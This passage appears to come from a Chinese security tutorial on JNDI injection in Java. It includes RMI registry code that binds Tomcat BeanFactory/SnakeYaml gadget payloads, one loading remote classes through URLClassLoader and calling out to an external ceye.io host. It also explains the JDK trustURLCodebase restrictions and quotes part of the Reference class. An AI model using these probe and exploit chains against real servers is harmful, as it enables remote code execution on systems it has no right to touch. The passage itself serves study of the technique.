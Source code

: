 ### 探测链2

> 探测是否具有SnakeYaml依赖

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",true, "org.apache.naming.factory.BeanFactory", null);
String yaml = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://tcbua9.ceye.io/\"]]]]";
ref.add(new StringRefAddr("forceString", "a=load"));
ref.add(new StringRefAddr("a", yaml));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);
```

###  探测链3

> 探测其他存在的类
>
> 需要SnakeYaml依赖

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",true, "org.apache.naming.factory.BeanFactory", null);
String yaml = "{!!java.util.Map {}: 0,!!java.net.URL [\"http://tcbua9.ceye.io/\"]: 1}";
ref.add(new StringRefAddr("forceString", "a=load"));
ref.add(new StringRefAddr("a", yaml));
ReferenceWrapper referenceWraper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);	
```

- 

## 简单利用

### 条件

需要保证JDK < 8u191

后版本存在trustCodebaseURL的限制，只信任已有的codebase地址，不再能够从指定codebase中下载字节码

在`6u141,7u131,8u121`之后，新增了 `com.sun.jndi.rmi.object.trustURLCodebase`选项，默认为`false`，禁止`RMI`和`CORBA`协议使用远程`codebase`选项，虽然该更新阻止了`RMI`和`CORBA`触发漏洞，但是我们仍然可以使用`LDAP`协议进行攻击，随后在`6u211,7u201.8u191`中，又新增了 `com.sun.jndi.ldap.object.trustURLCodebase`选项，默认为`false`，禁止`LDAP`协议使用远程`codebase`选项

### 利用`Reference`

#### 简介

看看`Reference`类的关键代码：

```java
COPYpublic class Reference implements Cloneable, java.io.Serializable {
    protected String className;
    protected Vector<RefAddr> addrs = null;
    protected String classFactory = null;
    protected String classFactoryLocation = null;
    public Reference(String className) {
        this.className  = className;
        addrs = new Vector();
    }
    public Reference(String className, String factory, String factoryLocation) {
        this(className);
        classFactory = factory;
        classFactoryLocation = factoryLocation;
```